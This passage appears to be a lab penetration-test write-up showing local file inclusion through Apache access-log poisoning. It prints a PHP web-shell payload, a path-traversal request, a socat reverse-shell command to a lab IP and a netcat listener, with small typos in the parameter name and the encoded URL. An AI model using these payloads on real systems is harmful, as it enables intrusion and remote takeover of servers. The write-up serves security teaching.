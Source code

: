 When the web application processes the log file, it treats the contents as plain text by default. This means that the injected PHP code `(<?php system($_GET['cmd']); ?>)` in the log file will be interpreted as executable code. The `system()` function is executed, which allowed the tester to run arbitrary shell commands with the parameter `cmd`. This can be verified by examining the access.log file. By accessing `/var/log/apache2/access.log` using path traversal techniques and inspecting the last log entry, it is observed that the `GET` request is visible while the injected PHP code remains invisible.  \
                                          ![](/assets/lfi/verified.png)\
This confirms the successful injection, as the PHP executable code is interpreted as code and not treated as literal text.

### Establishing a Reverse Shell {#section-2}
To establish a reverse shell, the tester utilized the following socat command.
```bash
 socat tcp-connect:192.168.45.180:1234 exec:bash 
``` 
For the server to correctly interpret and transmit the reverse shell, the URL was encoded as the following:
```bash
socat%20tcp-connect%3A192.168.45.180%3A1234%20exec%3Abash
```   
The tester created a  net cat listener to catch  the reverse shell. 
```bash
nc -nlvp 1234 
``` 
Next, the encoded URL was appended to `/var/log/apache2/access.log` with the `cme` parameter as the following. 

```bash
127.0.0.1/vulnerabilities/fi/?page=../../../../../../../var/log/apache2/access.log&cmd=socattcp-connect%3A192.168.45.180%3A1234exec%3Abash`
 ```

As seen below, the tester successfully received a reverse shell.
![](/assets/lfi/reverseShell.gif)
